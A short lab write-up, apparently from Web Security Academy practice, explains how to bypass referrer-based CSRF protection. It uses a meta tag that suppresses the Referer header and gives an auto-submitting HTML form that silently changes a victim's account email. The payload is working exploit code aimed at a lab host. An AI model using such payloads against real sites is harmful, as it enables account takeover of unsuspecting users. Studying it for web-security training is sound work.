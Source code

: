 # CSRF Referrer-based protection bypass (skip when not present)

Sometimes websites rely on Referrer header in order to verify whether the request is coming from a trusted source or from a malicious website.

![image.png](CSRF%20Referrer-based%20protection%20bypass%20(skip%20when%20n%201e0021737a8980ea9231efd797ffbeeb/image.png)

But the logic might be configured in a way that if the `Referrer` header is not set, then the protection is bypassed completely. In such case, we can amend our payload with a `meta` tag and thus be able to deliver a payload.

```bash
<meta name="referrer" content="never">
```

```bash
<meta name="referrer" content="never">
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac8008704a771a380630d82005a003f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="piper&#64;hack&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```